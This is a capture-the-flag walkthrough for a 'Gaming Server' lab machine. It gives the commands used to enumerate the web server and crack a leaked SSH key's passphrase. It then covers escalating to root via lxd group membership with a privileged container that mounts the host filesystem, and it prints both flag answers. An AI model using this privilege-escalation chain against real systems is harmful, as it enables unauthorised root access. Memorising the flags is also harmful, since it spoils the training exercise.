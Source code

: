 # Gaming Server - Easy

```shell
nmap -T4 -p- -A 10.10.53.47

feroxbuster -u http://10.10.53.47 -w /usr/share/wordlists/dirb/common.txt -x php,html,bak,js,txt,json,docx,pdf,zip --extract-links --scan-limit 2 --filter-status 401,403,404,405,500 --silent

vim id_rsa

chmod 600 id_rsa

ssh2john id_rsa > hash_id_rsa

john --wordlist=dict.lst hash_id_rsa

ssh john@10.10.53.47 -i id_rsa
#login successful

id
#part of lxd group

#we already have the alpine build tar archive
#on attacker machine
python3 -m http.server

#on victim ssh
cd /tmp

wget http://10.14.31.212:8000/alpine-v3.16-x86_64-20221024_0528.tar.gz

lxc image import ./alpine-v3.16-x86_64-20221024_0528.tar.gz --alias myimage

lxc image list

lxc init myimage ignite -c security.privileged=true

lxc config device add ignite mydevice disk source=/ path=/mnt/root recursive=true

lxc start ignite

lxc exec ignite /bin/sh
#root shell

id
#root

cd /mnt/root/root

cat root.txt
```

* Open ports & services:

  * 22 - ssh - OpenSSH 7.6p1 (Ubuntu)
  * 80 - http - Apache httpd 2.4.29

* We can enumerate the webpage for hidden directories and clues.

* The source code for the webpage mentions a user named john.

* We enumerate the following directories:

  * /logo.png
  * /featured-character.jpg
  * /video.jpg
  * /about.php
  * /robots.txt
  * /secret
  * /uploads

* /about.php contains a file upload option, /secret contains a secretKey, and /uploads contains a few files.

* /secret contains a file with a RSA private key; and there is a dictionary in /uploads.

* We can attempt to crack the key using ssh2john, along with the given dictionary; we get the passphrase 'letmein'.

* We can login as 'john' with this via SSH.

* Using 'id', we can see that john is part of the lxd group - this can be exploited, we can refer the steps using online articles.

* Following the steps, we get root shell.

```markdown
1. What is the user flag? - a5c2ff8b9c2e3d4fe9d4ff2f1a5a6e7e

2. What is the root flag? - 2e337b8c9f3aff0c2b3e8d4e6a7c88fc
```
